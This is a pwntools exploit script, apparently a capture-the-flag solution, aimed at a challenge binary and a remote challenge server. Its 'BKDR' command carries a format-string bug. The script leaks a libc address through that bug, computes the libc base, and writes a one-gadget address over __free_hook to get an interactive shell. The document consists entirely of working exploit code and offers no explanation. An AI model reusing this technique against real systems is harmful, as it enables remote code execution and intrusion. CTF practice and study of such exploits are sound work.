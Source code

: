 ```python
#!/usr/bin/env python3

from pwn import *
exe = ELF("./chall")
libc = ELF("./libc.so.6")
context.binary = exe
#context.log_level = "debug"

gs = '''
continue
'''

if args.REMOTE:
    io = remote('134.209.183.143', 30810)
elif args.GDB:
    io = gdb.debug('./chall', gs)
else:
    io = process('./chall')

io.recvline()
io.sendline(b'USER ;)')
io.recvline()
io.sendline(b'PASS ;)')
io.recvline()


def fmt_str(payload):
    io.sendline(b'BKDR ' + payload)
    io.recvuntil(b'BKDR ')
    result = io.recvline()
    return result


def main():
    addr_leak = fmt_str(b"0x%2739$lx")
    libc_base = int(addr_leak, 16) - 0x28565
    libc.address = libc_base
    info(f"libc base: {libc_base:02x}")
    info(f"free_hook: {libc.sym.__free_hook:02x}")
    info(f"system addr: {libc.sym.system:02x}")
    onegadget = libc.address + 0xde78c

    # write system to free_hook
    payload = fmtstr_payload(1031, {libc.sym.__free_hook: onegadget}, write_size='byte', numbwritten=12)
    io.sendline(b'BKDR ' + payload)

    io.interactive()
    
if __name__ == '__main__':
    main()
```
